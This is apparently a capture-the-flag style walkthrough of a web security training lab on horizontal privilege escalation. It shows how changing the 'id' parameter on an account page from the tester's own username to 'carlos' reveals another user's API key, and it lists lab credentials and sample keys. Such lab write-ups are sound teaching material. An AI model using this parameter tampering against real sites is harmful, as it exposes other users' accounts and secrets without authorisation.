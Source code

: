 # User ID controlled by request parameter

## This lab has a horizontal privilege escalation vulnerability on the user account page.

## To solve the lab, obtain the API key for the user `carlos` and submit it as the solution.

## You can log in to your own account using the following credentials: `wiener:peter`

### step1

login using wiener:peter
click on my account

https://0a1500b804a7a23fc1f01357003c00e1.web-security-academy.net/my-account?id=wiener

Your API Key is: 5u2IFsWLQbqabTnFjuVLb36P9eOrEOHu

change id to carlos
https://0a1500b804a7a23fc1f01357003c00e1.web-security-academy.net/my-account?id=carlos

Your API Key is: X0JCp1HfN2fEfw2B6jqdYZjiPsYKqVyU

submit carlos id lab solve

